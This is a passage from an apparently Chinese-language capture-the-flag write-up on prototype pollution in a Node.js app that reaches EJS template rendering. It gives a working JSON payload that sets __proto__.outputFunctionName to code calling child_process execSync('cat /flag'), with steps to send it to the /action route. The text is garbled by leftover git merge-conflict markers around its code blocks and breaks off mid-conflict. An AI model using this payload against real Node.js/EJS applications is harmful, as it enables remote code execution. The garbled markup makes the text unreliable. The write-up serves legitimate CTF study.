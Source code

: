 回忆一下 clone 函数是将待操作对象 merge 一个空对象

所以我们现在需要找到这个待操作对象，

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})
```

/info 路由下，将 res.outputFunctionName 渲染进 index，此时如果写入恶意代码，访问 /info 路由的时候会进行模版渲染此时将注入的代码被执行，导致 RCE

而且它还是未定义的

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
res.outputFunctionName=undefined;
```

exp：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
{"__proto__":{"outputFunctionName":"a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');//"}}
```

具体构造原理：[https://evi0s.com/2019/08/30/expresslodashejs-%e4%bb%8e%e5%8e%9f%e5%9e%8b%e9%93%be%e6%b1%a1%e6%9f%93%e5%88%b0rce/](https://evi0s.com/2019/08/30/expresslodashejs-%e4%bb%8e%e5%8e%9f%e5%9e%8b%e9%93%be%e6%b1%a1%e6%9f%93%e5%88%b0rce/)

抓 /action 的包，改 content-type 为 json，传入 exp

<<<<<<< HEAD
[![](assets/1710898975-0b255daed9aca25c77fb2cd05569cd36.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240310171441-a09be3fc-debe-1.png)
=======